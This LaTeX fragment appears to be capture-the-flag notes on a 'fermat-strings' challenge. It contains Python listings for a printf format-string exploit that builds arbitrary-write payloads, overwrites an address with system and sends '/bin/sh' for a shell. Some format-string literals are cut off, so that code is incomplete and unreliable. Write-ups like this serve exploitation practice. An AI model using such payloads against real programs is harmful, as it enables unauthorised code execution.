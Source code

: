 \documentclass[main.tex]{subfiles}
\begin{document}
\begin{minipage}[t]{0.49\textwidth}
	\begin{enumerate}
		\setlength{\parskip}{1em}
		\item[\texttt{[\_]}] \texttt{[fermat-strings]} My god, I forgot that \texttt{printf} can perform arbitrary writes! After searching for a while for format-string, I found a very useful resource: \href{https://hacktricks.wiki/en/binary-exploitation/basic-stack-binary-exploitation-methodology/index.html}{\texttt{HackTricks}}, which gives me some f-string tricks and new insight into ``re-entering the vulnerability''\\\\
		\begin{minipage}[t]{0.50\textwidth}
			\begin{python}
				# def write(value, A):
				F = "%
				
				val, N = value, 0
				while val:
				    val, N = val >> 8, N + 1
				
				n, P = 0x25, ""
				for i in range(N):
				    d, n = (value - n) & 0xFF, value
				    P += F.format(d, 43 + N * 2 + i)
				    value >>= 8
				
				return P, [A + i for i in range(N)]
			\end{python}
		\end{minipage}
		\hfill
		\begin{minipage}[t]{0.49\textwidth}
			\begin{python}
				# def read(A):
				F = "%
				return F.format(45), A
				
				# def round(F, *args):
				p.sendlineafter(b"A:", b"37")
				p.sendlineafter(b"B:", flat(b"30072003", F(*args)))
				
				#def send_payload(p):
				round(write, 0x400837, 0x601040)
				round(read, 0x601050)
				...
				round(write, SYSTEM, 0x601058)
				p.sendlineafter(b"A:", b"/bin/sh")
			\end{python}
		\end{minipage}
	\end{enumerate}
\end{minipage}
\end{document}
